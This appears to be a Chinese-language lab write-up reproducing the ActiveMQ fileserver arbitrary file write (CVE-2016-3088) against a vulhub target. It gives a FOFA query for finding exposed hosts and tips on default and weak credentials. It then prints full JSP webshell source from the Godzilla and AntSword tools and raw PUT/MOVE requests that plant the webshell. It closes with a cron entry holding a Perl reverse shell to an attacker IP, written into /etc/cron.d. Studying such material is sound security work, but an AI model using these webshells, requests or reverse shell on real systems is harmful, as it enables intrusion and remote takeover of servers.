

# ActiveMQ任意文件写入漏洞

## 漏洞编号

```
CVE-2016-3088
```


## 漏洞描述

ActiveMQ的web控制台分为三个应用，admin，api和fileserver

其中admin是管理员页面，api是接口，fileserver是储存文件的接口

admin和api都需要登陆后才能使用，fileserver无需登录


fileserver是一个RESTful API接口，我们可以通过GET，PUT，DELETE等HTTP请求对其中存储的文件进行操作，其设计目的是为了弥补消息队列操作不能传输，存储二进制的文件，但是后来发现：

1.其使用率不高

2.文件操作容易出现漏洞


所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（可以在conf/jetty.xml中开启）

在5.14.0版本之后，彻底删除了fileserver应用


该漏洞出现在fileserver应用中

fileserver支持写入文件（但是不支持解析jsp），同时支持移动文件（MOVE请求）

所以我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞


## 影响范围

```
Apache ActiveMQ 5.x - 5.14.0
```


## FOFA语法

```
app="APACHE-ActiveMQ"&&port="8161"&&status_code="200"&&country="CN"
```


## 文件写入的利用方法

- 写入webshell
- 写入cron或ssh key等文件
- 写入jar或jetty.xml等库和配置文件


写入webshell：门槛低同时更方便，但是fileserver不解析jsp，admin和api两个应用都需要登录才能访问，因此不太好用

写入cron或ssh key：好处是直接反弹shell，比较方便，但是需要root权限

写入jar：需要jar的后门

写入xml配置文件：需要知道activemq的绝对路径


## ActiveMQ指纹信息

```
端口：
	8161
服务器：
	jetty
banner：
	server:activemq
	magic:activemq
	realm="activemqrealm"
头部：
	realm="activemqrealm"
```


## 相关工具

蚁剑

[AntSwordProject/antSword: 中国蚁剑是一款跨平台的开源网站管理工具。AntSword is a cross-platform website management toolkit.](https://github.com/AntSwordProject/antSword)


冰蝎

[rebeyond/Behinder: “冰蝎”动态二进制加密网站管理客户端](https://github.com/rebeyond/Behinder)


哥斯拉

[Releases · BeichenDream/Godzilla](https://github.com/BeichenDream/Godzilla/releases)


cron表达式在线生成

[Cron - 在线Cron表达式生成器](https://cron.ciding.cc/)


## 环境搭建

```
vulhub环境：
	docker-compose up -d
```


访问192.168.1.15:8161


## 漏洞复现

```
攻击机ip:192.168.1.1
靶机：192.168.1.15
```


### 写入webshell

这个漏洞需要登录admin或者api，同时需要知道ActiveMQ的绝对路径

ActiveMQ的绝对路径可以通过访问http://ip:8161/admin/test/systemProperties.jsp页面获取

而这个页面也需要登录admin之后才能访问

所以需要先获取admin应用的用户名和密码


- 获取用户名和密码
- 获取ActiveMQ的绝对路径
- 上传webshell
- 将webhshell移动到admin所在文件夹
- 连接webshell，获取主机权限


获取admin应用应用的用户名和密码

```
默认用户名密码尝试
	admin:admin
弱口令
	尝试admin+爆破
社工
```


获取ActiveMQ的绝对路径

访问

```
http://192.168.1.15:8161/admin/test/systemProperties.jsp
```


上传webshell

```
首先将webshell上传到fileserver，之后才能从fileserver转移
由于ActiveMQ是一个java程序，因此需要传入一个jsp的webshell
然后用PUT方法吧webshell上传到fileserver
```

哥斯拉生成jsp木马

```
<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
```


访问fileserver，抓包


修改类型为PUT，同时上传webshell

```
PUT /fileserver/ra1n3.jsp/ HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
```


访问

[192.168.1.15:8161/fileserver/ra1n3.jsp](http://192.168.1.15:8161/fileserver/ra1n3.jsp)

验证是否上传成功


成功上传，但是无法解析


移动webshell到web目录下的api目录中（/opt/apache-activemq-5.11.1/webapps/api/ra1n3.jsp）

```
MOVE /fileserver/ra1n3.jsp HTTP/1.1
Destination:file:///opt/apache-activemq-5.11.1/webapps/api/ra1n3.jsp
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 08 Apr 2025 12:31:37 GMT
Priority: u=0, i
```


验证

http://192.168.1.15:8161/api/


http://192.168.1.15:8161/api/ra1n3.jsp


空页面，说明jsp木马被正常解析

哥斯拉连接

失败？？

然后我换了冰蝎的马还是失败，不知道是

换了蚁剑的一句话木马

```

<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

重启环境然后上传


蚁剑连接

然后我发现，前面没问题，是因为访问/api/ra1n3.jsp需要身份验证

即要修改连接配置





然后通过蚁剑上传哥斯拉的马，修改配置后重新连接，成功


冰蝎也正常


### 定时任务反弹shell

前提条件，需要运行ActiveMQ的用户具有root权限

服务器开启了cron服务，运行ActiveMQ的用户有使用crontab的权限


思路：

上传cron文件到fileserver

把cron文件从fileserver移动到/etc/cron.d/

攻击机上开启监听等待回连


同时也要注意，vulhub中提供的示例反弹shell用的是perl，这限定了服务器上需要安装了perl，另外可能也需要提前知道perl的绝对路径

而我尝试使用bash反弹shell的时候失败了


然后说是cron中换行要是'\n'，不能是'\r\n'，否则crontab执行会失败


首先上传cron配置文件

```
PUT /fileserver/cron.txt HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 246

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.1.21";$p=283;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##

```


然后将其移动到/etc/cron.d/root

```
MOVE /fileserver/cron.txt HTTP/1.1
Destination:file:///etc/cron.d/root
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```


本地开启监听，等待回连


成功拿到shell


